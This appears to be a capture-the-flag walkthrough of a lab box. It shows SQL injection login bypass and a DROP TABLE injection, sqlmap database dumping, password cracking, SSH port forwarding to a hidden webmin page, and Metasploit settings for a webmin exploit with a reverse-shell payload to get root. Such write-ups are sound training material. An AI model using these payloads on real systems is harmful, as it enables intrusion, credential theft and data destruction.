


## Table of contents
{: .no_toc .text-delta }


- Task 1
- Task 2
- Task 3
- Task 4
- Task 5
- Task 6
{:toc}


## [](#header-2)Summary:

1. Use sql injection to obtain access through webportal
2. Use a sqlmap to extract hashed password3
3. Plug the hashed password into JohnTheRipper in order to crack it.
4. Access a blocked webpage running webmin via reverse ssh tunnel
5. Use exploit via metasploit on webmin page to escalate privileges


## [](#header-2)Task 1:

The first challenge was to perform a reverse image search on the cover of the website to see who the pictured character was.


Which can be done with [reverse image search](https://www.reverseimagesearch.com/)

## [](#header-2)Task 2:
We find that our login portal is vulnerable to sql injection and try to exploit it.

The reason the below sql injection ' or 1=1 -- - works is because it essentially finishes the sql statement that the Log in: portion uses. 

```SQL
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

An example of a SQL injection that could prove dangerous is:

```SQL
'; DROP TABLE users; --'
```
This attack if inserted in our case would delete the users table altogether by cuting off the previous select statement and then continuing to execute DROP TABLE users; --' which deletes the users table. 

```SQL
SELECT * FROM users WHERE username = admin AND password := '; DROP TABLE users; --'
```


## [](#header-2)Task 3:
In the portion of the box we see a portal that has a search feature that can potentially be exploitable.


First we'll be using burpsuite so that we can intercept the request in the search feature and pass it on to sqlmap to do our dirty work.


Then we'll save this as a txt file “request.txt” and plug it into sqlmap with the following command:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```
-r uses the request provided
--dbms specifies which database you are targeting 
--dump dumps the whole database

With sqlmap we are able to find some very interesting stuff including possible table input as well as hashed passwords.


## [](#header-2)Task 4:
From here we are going to crack the hash that we found from sqlmap with the opensource password cracker JohnTheRipper

To do this we will use the following command: 


Once our password is found we can proceed to ssh into the machine.


from here we find the user flag within the /home/agent47 directory

## [](#header-2)Task 5:

From here we use the ss tool to see what open sockets we have available 
```bash
ss -tulpn
```
provided is a list of the flags and their purposes:


We then find we have 5 open TCP connections and 2 udp.


From here we can use one of these connections to create a reverse ssh tunnel on another port with 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```
Now we can have a tunnel from that port that was previously restricted on our localhost 




Now we are able to access the page being hosted on that port within our local machine at localhost:10000




Logging in with our agent user crednetials we come to this web page which shows some version information that we can use to further exploit.


## [](#header-2)Task 6:

In order to find a exploit for this application we can search


From here we use the following options once we get into our target module

options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run


And we get root!

## [](#header-2)Conclusion:

Even though this room was more of a walkthrough, I did find that I learned useful information on sql injections as well as reverse ssh tunnels.
